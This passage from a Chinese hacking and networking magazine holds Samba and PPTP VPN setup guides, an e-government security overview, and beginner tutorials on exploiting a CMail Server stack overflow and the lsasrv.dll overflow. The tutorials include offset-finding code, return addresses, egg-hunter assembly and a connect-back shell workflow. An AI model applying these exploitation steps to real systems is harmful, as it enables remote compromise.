总体来说，本文主要是为大家防范IP盗用提供一种新的思路，到底选择什么方法还是得根据自身的情况来决定。

## Samba沟通FreeBSD

| 适合读者 | 网管、FreeBSD新手 |
|---|---|
| 前置知识 | FreeBSD基本操作 |
| 难度等级 | 中 |

文／图 冯哲荟

## Windows文件共享
大家都知道Windows之间共享使用网络邻居，UNIX之间使用NFS（网络文件系统），那UNIX与其它种类的操作系统之间的共享怎么实现呢？这就要靠今天的主角——Samba了。

什么是Samba？简单地说，Samba是UNIX环境下的一个软件，它能够实现UNIX系统与Windows、MacOS等操作系统之间的文件共享、网络打印机共享等。

Samba属于GNU Public License（简称GPL）的软件，因此可以合法且免费地使用它。Samba的核心是SMB（Server Message Block）协议。SMB协议是客户机/服务器型协议，客户机通过该协议可以访问服务器上的共享文件系统、打印机及其他资源。SMB使用了NetBIOS的应用程序接口（Application Program Interface，简称API），通过“NetBIOS over TCP/IP”使得Samba不仅能与局域网络主机分享资源，更能与全世界的电脑分享资源。SMB主要是作为Microsoft网络的通讯协议，而Samba则是将SMB协议搬到UNIX上来应用。

现介绍一下本次实验的环境：

| 系统 | IP | DNS |
|---|---|---|
| FreeBSD 4.9-release | 192.168.0.2 | 192.168.0.1 |
| Windows 2000 Server | 192.168.0.1 | 192.168.0.1 |

两机通过10Mbit/s以太网连接，使用的是Samba 2.2（Samba的最新版本出到了3.0，如需要可以去www.samba.org下载最新版）。

在正式实验前，我们需要做两个准备。首先，FreeBSD的DNS和网关应与Windows的设置相同，否则可能导致实验失败。FreeBSD下设置的方法：使用ROOT在Shell下执行下列命令（本文中进行的操作均要求ROOT权限，后文不再声明）。

```bash
/stand/sysinstall，然后 configure -> networking -> interfaces -> lnc0
```

完毕后重启生效。然后是要确保Windows下Computer Browser、Server和Workstation这3个服务的启动。下面我们正式开始。

### 第一步 安装Samba

```bash
# whereis samba            # 查找Samba软件包的位置
samba: /usr/ports/net/samba
# cd /usr/ports/net/samba  # 进入软件包的目录
# make install clean       # 编译和安装
```

若干时间后，安装完成。

### 第二步 配置与操作

安装完毕后，会在/usr/local/etc下生成一个文件smb.conf.default（注：FreeBSD由用户自己安装的软件的配置文件一般都生成在/usr/local/etc下）。由于系统只加载conf文件的配置，而default只是默认的示例配置，并不会被加载，故用以下命令将smb.conf.default另存一份为smb.conf。

```bash
# cd /usr/local/etc
# cp smb.conf.default smb.conf
# Unix的cp命令同DOS命令copy
```

除了smb.conf.default，在安装完毕后系统会在/usr/local/etc/rc.d下生成samba.sh.sample，它是启动Samba的脚本，同样将samba.sh.sample另存一份为samba.sh。接下来是配置smb.conf。

与一般的UNIX文件不同的是，smb.conf用分号“;”作为配置条目的注释。例如：`;encrypt passwords`；如果想让某条目生效，只要去掉该行前的分号就可以了。

```ini
[global]
workgroup = MYGROUP
# 工作组名，可与Windows 2K所在的工作组名不同
server string = HC008
# 文件夹显示的时候，服务器图标下显示的名称
encrypt passwords = Yes
# 加密口令
log file = /var/log/samba/log.%m
# 日志位置
max log size = 50
# 日志文件最大容量50KB，超过会自动覆盖先前的
dns proxy = No
# 服务器不作为本地DNS代理服务器
guest account = temp
# 允许在Windows 2000的网络邻居上使用temp账户访问BSD
security = User
# 从网络邻居进入FreeBSD的共享目录需要输入密码
hosts allow = 192.168.0. 127.
# 允许连线的主机，包括192.168.0.*和127.*.*.*
```

如果读者希望不使用密码登录的话，可将temp账户的密码设置为空，并且更改为`security = share`，`encrypt passwords = No`。但考虑到安全性，笔者不推荐这样做。关于log file，读者还必须自行去建立该存放日志的目录：`# mkdir /var/log/samba`。好，我们继续配置smb.conf。

temp账户必须在`/etc/passwd`文件内存在，否则会以nobody的身份进入。

接下来就是共享目录了，这并不是硬性的，读者可以自行选择，下面将我配置的列出来供大家参考。

```ini
[netlogon]
comment = Network Logon Service
path = /var/tmp
# 共享出来的目录，另行示例
guest ok = No
# 不允许匿名访问
share modes = No
# 不允许share模式，也就是先前提到的免密码访问模式

[public]
comment = Public Stuff
path = /usr/local
read only = Yes
# 对该共享目录的权限为只读
guest ok = Yes
```

退出编辑器，保存，然后使用`smbpasswd <username>`（把尖括号中的用户名替换成你要使用的账户，文中是temp）添加temp为Samba用户：`# smbpasswd temp`。系统此时会提示你输入两遍密码，照做就是了。然后用编辑器打开`/etc/inetd.conf`，该文件是FreeBSD的服务列表，去掉下面两行前的`#`：

```conf
#netbios-ssn stream tcp nowait root /usr/local/sbin/smbd smbd
#netbios-ns  dgram  udp wait   root /usr/local/sbin/nmbd nmbd
```

然后重新启动inetd，使改动生效：

```bash
# ps -aux | grep inetd      # 查看inetd的进程号
root 106 ... /usr/sbin/inetd -w
```

看到了吗？进程号是106，然后再用kill发个重启信号给它：

```bash
# kill -HUP 106


```

配置Samba也可以使用Swat。它是Samba的一个组件，在`/etc/inetd.conf`里去掉Swat这行前的`#`，重启服务之后，就可以在浏览器里输入`http://ip:901`，再在弹出框内输入ROOT密码就可以进行图形化配置了，比较傻瓜。

还不放心的话，再去启动一下`/usr/local/etc/rc.d/samba.sh`吧。记得它吗？刚才提到过它的。`# sh /usr/local/etc/rc.d/samba.sh`

好了，现在打开Windows 2000的网络邻居，进入“整个网络”，就能看到刚才为FreeBSD建的工作组MYGROUP了，另一个Workgroup则是Windows所在的工作组（如图1所示）。
进入MYGROUP，就能看到FreeBSD的主机名，再双击，输入用户名与密码，即可进入FreeBSD的共享目录了，如图2所示。
这里的两个目录就是先前在smb.conf里设置的两个目录，分别指向`/var/tmp`和`/usr/local`。现在Windows 2000已经可以访问UNIX的共享资源了。接着来看UNIX如何访问Windows的共享资源：在Windows下随便找个目录About，共享它！如图3所示。
图3

选择“权限”标签，添加一个账户供FreeBSD用户访问，如图4所示。
图4

我选择了User这个账户，然后点添加，接着一路确定。不用去管“文件夹属性”和“安全”选项卡中的权限设置，因为当两者发生冲突时，共享级权限优先级更高。现在，我们回到FreeBSD下，在Shell下使用以下命令列出Windows 2000的共享：

```bash
smbclient -L host -U username


```

将host换成Windows主机的机器名，username换成你用来访问Windows的账号。也可以先在`/etc/hosts`中加入主机名与IP映射。

执行上述命令后，会提示输入密码，我们就输入User账户的密码（不回显）。如果此时你看到如下错误提示，那很可能是你的安全意识惹的祸，如图5所示。为什么这样说呢？我们中的许多人因为安全因素，都关闭了Windows 2000下的默认共享及IPC管道，这是个好习惯。
图5

可是在Samba中，默认共享可以不要，但IPC管道是不可或缺的。我们在CMD下打开它：

```bat
net share ipc$


```

再次运行smbclient命令就正确了，如图6所示。
图6

其中乱码是由于我没有对FreeBSD进行中文支持。现在已经成功地列出了Windows共享的About目录与IPC命名管道了。有了列表，我们就可以具体地访问共享目录了：

```bash
smbclient //192.168.0.1/about -U user


```

然后输入访问口令，同样是不回显的，如图7所示。
图7

现在我们可以以指定的权限对该目录进行操作了，不过只能使用为数不多的命令，如`ls`、`cd`、`get`（下载）和`put`（上传）等，不过也够使了。本文讲述了FreeBSD和Windows环境下的配置，其实包括Linux、HP-UNIX、Solaris在内的所有UNIX家族均可使用Samba，不过指令与配置细节略有不同，读者可自己琢磨一下。

| 适合读者 | 网络管理员 |
|---|---|
| 前置知识 | Linux基本网络操作 |
| 难度等级 | 中 |

## 架设从Windows到Linux的PPTP VPN

文/图 朱宏志
现在使用Linux的人越来越多，我们总部就是使用的Linux，但由于分支机构位置分散，不便于管理，所以还是使用Windows。通常情况下我们都是通过VPN的方式把分支机构与总部连接起来。以前我们见过很多Windows到Windows的VPN创建文章，但对于这种混合式的VPN架设却介绍得很少。本文就来看看怎样架设这种PPTP VPN。

通常情况下VPN有PPTP VPN、IPSec VPN和L2TP VPN三种。PPTP最简单，是一种点到点传输协议；IPSec最通用；L2TP VPN则更安全。

PPTP VPN本质上是虚拟的点对点链路，它先把到达远方网络的数据包打包成PPP帧，然后再对这些PPP帧进行二次封装，以便能够在其他物理链路上传输。PPTP VPN有控制信道和数据信道之分，控制信道连接到VPN服务器的TCP 1723端口，数据通道传送PPP帧。
### 组网环境：先读懂PPTP VPN的基本原理

本文的网络环境如图1所示。
上面部分是总部网络150.0.1.0/24（文中说明该地址按私有环境理解），网络边界是一台RedHat 9.0，使用Netfilter/iptables防火墙，准备在该服务器上安装PPTP VPN服务。分支机构是下方的192.168.254.0/24网络，边界使用ISA 2000防火墙，并使用Windows集成的PPTP VPN功能。两端都通过ADSL接入互联网，通过PPTP VPN把分支网络与总部网络连接起来。

### 在RedHat 9.0里安装和配置PPTP VPN服务器

在打包PPP帧的过程中，将对PPP数据包进行加密。为了取得最大的安全性，这里使用MPPE加密和MSCHAPv2身份验证方法。下面介绍具体配置过程。

- 下载与安装
  - 由于Linux本身没有集成PPTP功能，需要安装相应程序以支持PPTP。
  - 需要PPP支持并更新到支持MPPE的组件。
  - 若要使用MPPE加密，还需内核支持并安装相应补丁包。

```bash
# rpm -Uvh ppp-2.4.2_cvs_20030610-1.i386.rpm
```

（2）要使用MPPE加密，还需要内核支持。文中示例继续下载并安装kernel-mppe相关包。

```bash
# rpm -ivh kernel-mppe-2.4.20-8.i686.rpm
```

安装之后可以检查 Kernel MPPE 是否安装成功，输入如下命令：

```bash
# depmod -a
# modprobe ppp-compress-18
```

如果安装成功，将会有下面的提示信息。

Warning: loading /lib/modules/2.4.20-8/kernel/drivers/net/ppp_mppe.o will taint the kernel: non-GPL license - BSD without advertisement clause

See http://www.tux.org/lkml/#export-tainted for information about tainted modules

Module ppp_mppe loaded, with warnings

（3）下一个要下载的当然就是 PPTP 服务器版本了，我这里选择的是 pptpd-1.1.4-b4.i386.rpm，安装命令如下：

```bash
# rpm -ivh pptpd-1.1.4-b4.i386.rpm
```

## 2. 编辑配置文件

### 1）编辑 /etc/pptpd.conf

/etc/pptpd.conf 是 PPTP 服务 PPTPD 运行时使用的配置文件，常用选项如下（# 号后是选项说明）：

```conf
speed 115200                # 接口速度
option /etc/ppp/options.pptpd
# PPP 组件将使用的配置文件
# stimeout 10
# 开始 PPTP 控制连接的超时时间（秒）
debug
# 把所有 debug 信息写入系统日志 /var/log/messages
localip 150.0.1.224
# 服务器 VPN 虚拟接口对端的 IP 地址
remoteip 150.0.1.225
# 客户端 VPN 连接成功后将分配的 IP（也可用地址池）
# listen 150.0.1.43
# 指定监听 PPTP 连接请求的 IP
```

### 2）编辑 /etc/ppp/options.pptpd

/etc/ppp/options.pptpd 就是上面 /etc/pptpd.conf 中的 option 所指定的。它是 PPP 组件将使用的配置文件。由于 PPTP VPN 的加密和验证都与 PPP 相关，所以 PPTP 的加密和验证选项都将在这个配置文件中进行配置。

注意：由于我们是以升级方式安装的 PPP 2.4.2，所以遗留下来的配置文件中的某些选项可能与 PPP 2.4.2 不一致。比如以前版本拒绝使用 chap 身份验证是用 -chap，而 ppp-2.4.2 使用 refuse-chap，所以下面所述为准。

```conf
lock
auth
# 启用身份验证，为了安全通常需要进行身份验证
debug
```

```conf
name cc3
# 相当于身份验证时的域，这里填上 VPN 服务器的名字
refuse-pap      # 拒绝 pap 身份认证
refuse-chap     # 拒绝 chap 身份认证
refuse-mschap   # 拒绝 mschap 身份认证
refuse-eap      # 拒绝 eap 身份验证
require-mschap-v2
# 必选项的关键，我们使用 mschap-v2 身份验证方法
require-mppe-128
# 要求 128 位 MPPE 加密
nomppe-stateful
# 无状态，有状态用 mppe-stateful
ms-dns 150.0.1.88
# VPN 客户端连接成功后将被分配的 DNS 参数
ms-wins 150.0.1.88
# VPN 客户端连接成功后将被分配的 WINS 参数
proxyarp
# 启用 ARP 代理
```

### 3）编辑 /etc/ppp/chap-secrets 文件

在这里配置能够连接到 VPN 服务器的用户和密码信息，也可以使用 RADIUS 进行身份验证。

```conf
# Secrets for authentication using CHAP
# client   server   secret     IP addresses
main       cc3      "#sysc1w2" 150.0.1.225
```

后面的 IP 地址栏你可以指定此用户登录后将分配的 IP，如果不具体指定，请用 * 号代替。

> 上面的配置创建了一个用户，密码必须用引号包含，否则有些字符（如 #）将导致不能登录。

## 3. 启动 PPTP 服务

使用命令 pptpd 即可，如果要想开机以后即启动 PPTP 服务，可以把 pptpd 加入 /etc/rc.d/rc.local：

```bash
echo "pptpd" >> /etc/rc.d/rc.local
```

> 要检查 PPTPD 是否启动成功，可以使用 `netstat -tln` 命令；如果成功，将会看到 TCP 1723 端口处于监听状态。

## 4. 配置路由

VPN 客户端连接成功之后，我们需要添加一条到分支网络 192.168.254.0/24 的路由，把下面的命令加入到 /etc/ppp/ip-up 文件中（在 exit 0 之前）：

```bash
route add -net 192.168.254.0 netmask 255.255.255.0 dev ppp1
```

## 5. 防火墙配置

要让外部用户能连接 PPTP VPN，还需要在防火墙中加入如下规则：

```bash
iptables -A INPUT -p tcp -i ppp0 -s 0/0 -dport 1723 -j ACCEPT
iptables -A INPUT -p 47 -i ppp0 -s 0/0 -j ACCEPT
iptables -A OUTPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
```

另外，要让总部能够访问分支网络需要添加以下规则：

```bash
iptables -A FORWARD -p ALL -i eth1 -o ppp1 -j ACCEPT
iptables -A FORWARD -p ALL -i ppp1 -o ppp0 -j ACCEPT
iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT
```

分支网络能够访问总部需要添加如下规则：

```bash
iptables -A FORWARD -p ALL -i ppp0 -o ppp1 -j ACCEPT
iptables -A FORWARD -p ALL -i ppp1 -o eth1 -j ACCEPT
```

VPN 服务器本身要访问分支网络的规则为：

```bash
iptables -A OUTPUT -p ALL -o ppp1 -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
```

分支网络能够访问 VPN 服务器的防火墙规则为：

```bash
iptables -A INPUT -p ALL -i ppp1 -j ACCEPT
```

## 6. 安装动态域名客户端软件

由于 PPTP 客户端需要知道 PPTP 服务器的 IP，但这里的 ADSL 拨号是动态 IP，所以我们需要安装一个动态域名客户端软件，这样 PPTP 客户端只要知道服务器的动态域名就行了。可以使用希网的免费动态域名，例如 *.3322.org，先到 http://www.3322.org 下载 Linux X86 的 Binary 版客户端程序，下载之后解压，然后从解压目录把 Ez-ipupdate 程序拷贝到 /usr/local/bin 目录，然后把下面的命令加入到 /etc/ppp/ip-up 中（在 exit 0 之前）：

```bash
/usr/local/bin/ez-ipupdate -i ppp0 -h test.3322.org -S qdns -u test:pass


```

用你自己的参数替换掉其中的“test.3322.org”和“test:pass”，这样 ADSL 拨号之后动态域名客户端软件将自动更新域名和 IP 对应值。

## 在 ISA2000 里配置 PPTP VPN

我们把 Linux 配置成了 PPTP VPN 服务器，那我们就可以把 ISA2000 配置成 PPTP 客户端。相对于 Linux 下的配置，Windows 下的配置就简单得多。

- 1. 让 ISA 2000 防火墙允许 PPTP 流量外出

在 ISA 2000 的管理界面中，右击 Network configuration，选择 Allow vpn client connections 项，跟着向导做下去。在这个过程中，ISA 将在“Access policy/ip packet filters”下创建几个过滤器以让 PPTP 流量外出，同时，向导将启动 RRAS（路由与远程访问组件）。

- 2. 把总部网络添加进 LAT

为了让总部的 150.0.1.0/24 网络能够访问这里的分支网络，我们需要在 ISA 的 LAT 中加入 150.0.1.0/24，这样，ISA 就将把总部网络当成内网，允许它对分支网络的访问。方法是在“network configuration/Local address table(LAT)”，然后选择“新建/LAN Entry”，如图3所示。
- 3. 创建请求拨号接口

进入 RRAS，右击“路由接口”项，选择“新的请求拨号接口”，出现创建请求拨号接口的向导，各项参数如下：

```text
接口名称：Tomain
连接类型：使用虚拟专用网络连接(VPN)
VPN种类：点对点隧道协议(PPTP)
目标地址：dongdai3322.org（这里填入PPTP服务器的域名或IP）
协议及安全措施：为此接口上的IP数据包选择路由
发送凭据：用户信息（这里填连接到PPTP服务器上的用户和密码信息，与/etc/ppp/chap-secrets匹配）
用户名：max
域：（保持为空）
密码：#$yes!w2


```

- 4. 配置此请求拨号连接

右击刚创建的请求拨号连接，进入其属性窗口，选择“选项”标签，然后选中“持续型连接”（如图4所示）。

- 5. 配置到总部网络的路由

右击“IP 路由选择”→“静态路由”，选择“静态路由”，在窗口的“接口”栏中选择上面刚创建的请求拨号接口。
图4

请求拨号连接，目标填上 150.0.1.0，网络掩码填上 255.255.255.0，如图5所示。
图5

完成之后重启服务器一次，这样每次开机后请求拨号接口将自动连接总部的 PPTP VPN 服务器（也可以手动连接），这样就把分支与总部两个网络连接起来了。

## 结束语

上面我们是把 RedHat 配置成了 VPN 服务器，而把 ISA 做成了客户端；其实我们也可以把 ISA 2000 做成 VPN 服务器而将 RedHat 做成客户端（需要安装专门的 PPTP 客户端），而且还可以把两端都做成 VPN 服务器/客户端，这样两端都能发起连接和接受请求。另外，很多朋友认为 VPN 是不能被嗅探的，这是一种错误说法。VPN 间传送的数据也是可以被嗅探的，但嗅探到的数据没有实用价值，因为它是经过加密的。本文是笔者在工作中的总结，结合了实际情况并提供了一些适合某些网络常见场景的方案，希望能够给广大的网络管理员和技术人员提供一些帮助。

## 电子政务安全模型

电子政务系统是一个复杂的多层次应用系统，根据不同的应用环境和安全要求可分为四个相对独立的网络安全管理域：内网核心数据层、内网办公业务层、外网公众信息服务层和网间信息交换层。电子政务安全体系的部署应遵循确定安全需求、安全状态评估、安全策略制定（含各种管理制度）、安全方案设计、安全方案实施、安全制度培训的顺序进行。

全面的安全需求通常包括两个方面：系统安全的功能需求和安全置信度需求。系统安全的功能需求包含身份认证、信息机密需求、数据保护需求以及安全管理需求。安全置信度需求则包含安全保护轮廓评估、安全目标评估、系统配置维护管理、用户手册规范、产品生命周期支持及测评等内容。

- 1. 对现有安全策略和制度进行分析。  
- 2. 参照一些通用的安全基线（Security BaseLine）来考察系统安全状态。  
- 3. 利用安全扫描工具去发现一些技术性的常见漏洞。  
- 4. 允许一些有经验的（在监管之下）对特定的机密信息和区域做模拟入侵系统渗透攻击测试。  
- 5. 对特定区域和信息的安全等级进行划分。  
- 6. 对该系统的安全管理人员和使用者进行访谈，以确定安全管理制度的执行情况和漏洞。

安全体系的部署并非一劳永逸。随着系统安全状态的动态变化，应定期对系统进行安全评估和审计，搜寻潜在的安全漏洞并修正错误安全配置。总之，电子政务的安全系统化应从管理和技术两方面来加强安全性，以动态的眼光来管理安全，在严谨的安全需求分析和安全评估基础上，运用合理的安全技术来实现电子政务的整体安全。

| 难度等级 | 中 |
|---|---|
| 适合对象 | 系统漏洞研究人员、安全爱好者 |
| 前置知识 | 汇编语言基础、溢出基本原理 |

**脚本小子：** 常有读者抱怨写 Exploit 是多么多么的困难，难以找到适合自己菜鸟特性的教程。虽然网上有很多教程，但大部分都是针对 *nix 类操作系统的，这无疑给菜鸟们设置了一道门槛……如果你是菜鸟，如果你想编写真正属于自己的 Exploit，该怎么办呢？

## 菜鸟版 Exploit
### 第50期

◎ 文 / F.Zh

从早期的 idq/ida 到 webdav 漏洞，一直以来大家都是用大虾们写的溢出利用程序……偶然间就选定了 CMail Server 4.0。漏洞报告称这个 Mail 服务软件的 3.3 版本有漏洞，不过我在看的时候发现 4.0 版本存在相同的漏洞，也就拿它来做了实验……

呵呵，如果你看过一些入门的文章，应该知道这就是一个典型的栈溢出……我们来写一个 C++ 的小程序，把我们刚才做的那些事情让计算机去做。不要小看这个程序，这可是 Exploit 的最初雏形……
把问题放在这里，我们先去解决另外一个令人困惑的问题：我们输入了这么多的“A”，到底是哪几个成为了上面那个错误对话框中的 0x61616161？

```cpp
memset(szUser+5, 'A', 800);
```

这是在“USER”后面加上了 800 个“A”。如果加的是其他字符呢？修改一下，把这句话替换掉……

```cpp
for(int i=0; i<800; i++)
    memset(szUser + 5 + i, (char)(i % 100 + 100), 1);


```

再执行一下，这次出现的错误框成了“0x7f7e7d7c 指令引用的 0x7f7e7d7c 内存。该内存不能为 read”，如图2所示。
好，我们记录下这个数字，看起来这次程序执行到内存中的 0x7f7e7d7c 地址去了。再次修改刚才的程序，把 `(char)(i % 100 + 100)` 中的取余数改成整除。

```cpp
for(int i=0; i<800; i++)
    memset(szUser + 5 + i, (char)(i / 100 + 100), 1);


```

再次启动 CMailServer，执行我们的小程序（光盘中附带的 2.cpp），这次出现的错误框成了“0x69696969 指令引用的 0x69696969 内存。该内存不能为 read”，如图3所示。
现在可以定位了，分析前两次：第一次在“USER”后追加 ASCII 100~199；第二次按 100 为一段递增。第一次溢出最小值是 0x7c（124），可判断是第 24 位；第二次是 0x69（105），对应第 5 段，由此可推断关键偏移约在第 524 个字符附近。

```cpp
for(int i=0; i<800; i++)
    memset(szUser + 5 + i, (char)(i / 100 + 100), 1);
*(int*)(szUser + 5 + 5*100 + 24) = 0x12347678;


```

代码如上修改以后，猜想应该执行到内存 0x12347678 地址去了吧？试试看，执行这个程序（3.cpp）。

（3.cpp），果然，弹出的错误对话框成了“0x12347678 指令引用的 0x12347678 内存。该内存不能为 read”。再修改成 0xaaaaaaaa 或者其他，是不是都一样？这样子我们就已经定位了溢出点，可以随意控制程序的流向了，搞定！

> 既然找出定位的方法非常巧妙和准确，以后会经常用到哦！

那么，让程序流到什么地方呢？最好是我们自己提交的字符串也是一段程序代码，让 CMailServer 来执行我们的代码，不就可以获得梦想中的 Shell 了吗？下面要用到 Ollydbg 了。

先把挂掉的 CMailServer 打开，然后打开一个 Ollydbg，选择“文件”->“附加”，在弹出的窗口中选择 CMailServer，确定后在“调试”菜单下选择“运行”或直接按 F9，这样我们就可以通过 Ollydbg 来调试 CMailServer，如图4所示。
回来打开我们的 VC，运行刚才的程序。这下子没有了对话框，而是 Ollydbg 把程序的错误拦截了下来，状态栏提示“访问违反：正在执行 [12347678]……”，程序确实执行到 0x12347678 去了，如图5所示。
保持这个状态不要动，在地址子窗口里面右键选择“前往”，然后在对话框内输入 esp。可以看到我们输入的字符串，以及前面的“0x12347678”因高低位反序显示为“78 76 34 12”。

图6

这里就是溢出的最关键地方，理论上我们可以直接定位，跳到 `0x02fd9014`，也就是 `esp` 的值上面去，但是这个地址只是对我的机器而言，而且是这一次的运行有效。我想你的机器上应该不是这个地址吧？不管怎么样，`esp` 指向的内容是一定的，所以聪明的 Hacker 想了一个办法：在内存中寻找一个固定的地址 A，这个地址 A 处对应的指令是 `call esp`，然后我们指定程序跳转的地址是 A。在溢出的时候，先到了 A 处，然后一个跳转就可以准确跳到我们发送的字符串上面了。如果我们的字符串刚好是一个可以执行的代码，那么计算机也会老老实实去执行。

> **脚本小子：** 定位 “call esp” 之类的指令在 Exploit 中起到了非常重要的作用。在不同的版本中，同一名字的动态链接库文件的这类指令地址可能不是完全一样的，这就是很多 Exploit 要针对特定的操作系统和补丁情况的原因。如果你能够找到特定版本的这类地址，也可以自己修改这些地址以适应不同版本。

顺带解释一下为什么可以找到一个相对固定的 `call esp` 地址：Windows 中会加载很多动态链接库，这些动态链接库的加载地址有固定的，而在很多版本中，这些动态链接库几乎没有改动，所以找上个把的 `jmp esp` 地址还是很容易的。这个地址，可以用现成的，也可以自己找。打个比方，lion 原来给过一个中文版 Windows 2000/XP/2003 都通用的 `pop/pop/ret` 地址 `0x7ffa1571`。我们猜想这附近的数据在这几个版本的 Windows 下都是相同的，所以我们可以在这附近找找看。

图7

```c
call esp、jmp esp 和 push esp/ret
```

的指令效果相同，前面两个在 XP/2003 下面会失败，所以找找最后的一个指令串看看。我先给一个 `0x7ffa9c1b` 看看，后面再说怎么找。

再次回到 VC 下面，把跳转的地址改成 `0x7ffa9c1b`，用 Ollydbg 调试 CMailServer（还记得么，过程在上面），运行一下。看看 Ollydbg，已经运行到 `esp` 的地址上面去了，虽然出错了——`0x69696969` 是一长串非法的指令，Ollydbg 因此而停了下来，如图7所示。

把这一串串的 `69` 换成 Shellcode 就可以了么？理论上是这样。我们先找一个别人写好的 Shellcode，把这里的 `69696969` 改成 Shellcode（3a.cpp）。Shellcode 虽然很重要，但是要写一个溢出程序不一定要自己写 Shellcode，外面有很多，随便拿一个来用就可以，比如这里我用的是 eyas 的 connect back 的 Shellcode，MShell 函数也是固定的格式。关于 shellcode 的制作，可以参考其他的文章。

> **脚本小子：** MShell 函数用来将反弹连接的 IP 地址和端口加入到 Shellcode 之中，以便于可以正确连接我们所指定的 IP 地址和端口。

打住一下，事情并不是这么简单。这里我们拖动一下左下地址栏窗口的滚动条，是不是附近一个大写字母都没有？我们提交的数据已经全部被修改过了，所以直接给 Shellcode 还不行——就算给了 Shellcode，确实会执行上去，但是 Shellcode 已经和我们提交的那个不一样，硬上的话只是会发生异常，如图8所示。

图8

一般的溢出文章大约到此给个 Shellcode 就可以了，我想这里就是一点不同的地方，有了些许的挑战性，而实际情况中，这种事情应该还是很常见的，好像 Serv-U 的最近连续两个溢出都是同样的情况。

先从实际情况来分析一下。在左下地址栏窗口中，滚动条的拖动范围稍微大一点，往下面看，到了大约 `0x2FDBXXX` 的地方的时候，又发现了我们提交的数据的另外一个拷贝，仔细观察一下，好像就是原始的数据。如果能够到这里来执行的话，提交的是什么就执行的是什么了！可以考虑在获得控制权的时候先搜索一下内存，找到这一片原始的数据，然后跳过来执行。至于控制权，呵呵，我们在前面的一步不是已经得到了吗？

好了，既然我们提交什么就能执行什么，那我们就提交一个搜索 Shellcode 的代码，在内存中找到原始的 Shellcode，然后跳过去执行就能满足要求。设想是这样：`esp` 指向是当前被修改过的字符串，从这里开始往下找，找到原始的字符串后跳转过去执行。关于判断是否是原始字符串的问题，通过观察看到，明明提交的是大写的字母，却变成了小写。CMailServer 会把提交字符串中的大写字母改成小写，因此需要设置一个由大写字母构成的标志，在搜索时通过该标志定位原始字符串。

```asm
mov eax, 'NEWS'    ; 设定标记
mov ebx, esp       ; 从 esp 开始搜索
a:  inc ebx
cmp [ebx], eax     ; 比较是否找到标记
jnz a              ; 未找到则继续
add ebx, 3         ; 找到后跳过几个字节
jmp ebx            ; 跳转执行
```

VC 中可嵌入汇编，调试后可在 “Code Bytes” 查看前后对应的机器码（前面是机器码，后面是编译后的代码）。

这里还有一个问题：代码要在被转换后的字符串中执行，所以不能出现 ASCII `0x41` 到 `0x5A`（大写字母区间）字符。否则经过 CMailServer 转换后会影响执行。需要改写指令以规避该区间字符。

```asm
mov eax, 'NEWS'   => mov eax, 'news'
                  sub eax, 0x20202020

inc ebx           => add ebx, 1   ; 或 sub ebx, -1
```

重新编译后，机器码中不再包含 `0x41~0x5A` 区间字符。将该段机器码放在跳转地址后（esp 指向处），溢出后即可执行；再设置大写标记并拼接 Shellcode，组成完整利用程序。

整体字符串结构可概括为：前部垃圾字符 + 在特定偏移处的返回地址（如 `0x7FFA9C1B`，对应 `push esp/ret`）+ Search code + 标记 + Shellcode。

| 段 | 含义 |
|---|---|
| R | 返回地址（如 `0x7FFA9C1B`） |
| S | Search code |
| F | 标记（如 `NEWS`） |
| C | Shellcode |

并给出转换前后（R,S,F,C 与 R',S',F',C'）在内存中的示意。

执行流程：先跳到 R' 给定地址，再转到 esp 指向位置执行 S'；S' 向下搜索到 F'，最终跳到 C。L/L' 是否一致影响不大，但 R/R'、S/S' 需一致；F 与 F' 必须不同以定位被修改位置；C 与 C' 也不应相同。

本地测试可监听端口（示例：`nc -l -vv -p 1111`）验证是否弹出 Shell。核心思路是不必深究服务端全部实现，只要让溢出后执行流进入我们提交的数据并正确跳到 Shellcode 即可。

继续说明查找 `push esp/ret`：先确认机器码（如 `54 C3`），在调试器中于合适模块附近做 HEX 搜索，找到可用地址后作为返回地址使用。

最后提出一个小问题：若 ret 地址按固定长度定位，现实中可能受安装路径等因素影响。是否存在更稳健的定位方式仍可进一步讨论。

| 项目 | 内容 |
|---|---|
| 难度等级 | 中 |
| 适合读者 | 系统漏洞爱好者 |
| 前置知识 | Ollydbg 基本使用方法、简单汇编知识 |

脚本小子：这个文章我就不说什么了，大家直接看看非常有代表性的一位读者来信的原样刊登吧。PS：这样的信件从《黑客防线》发出后，各编辑收到 Mail、论坛短消息、电话有类似说法的，不下 500 次！在这里小编们除了感谢大家对我们的支持和关心，并继续为大家提供这样的优秀稿件外，还有什么可做的呢？！

## 《菜鸟版 Exploit 编写指南》之二
## — lsasrv.dll 远程溢出

文/图 F.Zh

> 上次写的那篇文章，有好多东西是慌里慌张地没有说清楚。究其原因，说出来不怕大家笑话，我是为了骗点稿费给 MM 买东西，所以才会写得这么急。在接受了黑防老编独行者一番教育后，我深刻地认识到老编说得不错：读者才是一切的硬道理。为了显示编辑部的诚意，我决定续招一回。作为上一稿的补偿，这稿将会更详细……

2004 年 4 月份微软给的补丁包，一下子补了 20 几个漏洞，其中有一个 lsasrv.dll 的远程溢出，就是被用来做“震荡波”蠕虫的那个，算是被大家研究得最多的。关于这个漏洞的远程利用，mslug 在安全焦点有一个详细分析，而这个漏洞的本地利用方法相对来说要简单一点，我们可以试着练习一下，下面就让我们开始菜鸟的溢出之旅吧。

获得了这个漏洞的消息，首先是要想办法触发这个漏洞。按照文档，传递给 DsRoleUpgradeDownlevelServer 函数的第一个参数以超长字符串，就会发生溢出。这个参数在 2k 和 XP 下不一样，XP 下面可以直接是 ASCII，但是 2k 下面必须是 UNICODE 字符串。我们假定就在 win2k 下面利用，先写出一个能够触发溢出的 C++ 程序……

能够触发漏洞的程序我已经做成了 1.cpp。确认你的机器是 Windows 2000 且没有补丁，编译运行后应可看到一个 60 秒重启对话框，如图1所示。这个溢出被触发后，lsass.exe 因无法处理异常而终止，接着系统也会出问题。

所以，你还是等等吧……乘这个空当儿，来说说这种漏洞的调试方法。一般的溢出要是对系统没有太大影响（比如 Serv-U 之类），大多都在自己机器上调试；如果涉及内核或者关键进程，调一次就重启一次相当麻烦，高手们多会选择在 VMWare 中调试……

